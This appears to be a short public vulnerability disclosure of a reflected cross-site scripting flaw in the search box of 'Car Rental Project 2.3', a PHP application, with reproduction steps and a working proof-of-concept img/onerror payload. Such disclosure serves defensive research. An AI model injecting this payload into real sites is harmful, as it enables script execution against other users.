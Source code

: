 # Exploit Title: Car Rental Project 2.3 - 'Search' Cross-Site Scripting
# Date: 27/7/2021
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/car-rental-project-php-mysql-free-download/
# Version :  V 2.3
# Vulnerability Type: Cross-site Scripting
# Tested on Windows 10 、XAMPP
# This application is vulnerable to cross-site scripting vulnerability.
# Vulnerable script:


1.go to http://192.168.50.200/carrental/search.php  

2.Search box input payload ："><img src=1 onerror=alert(/xss/)>  

3.You will see your Javascript code executed.  

# Vulnerability proof: 
![image](https://github.com/BigTiger2020/Car-Rental-Project/blob/main/xss-1.png)  
  
![image](https://github.com/BigTiger2020/Car-Rental-Project/blob/main/xss-2.png)  
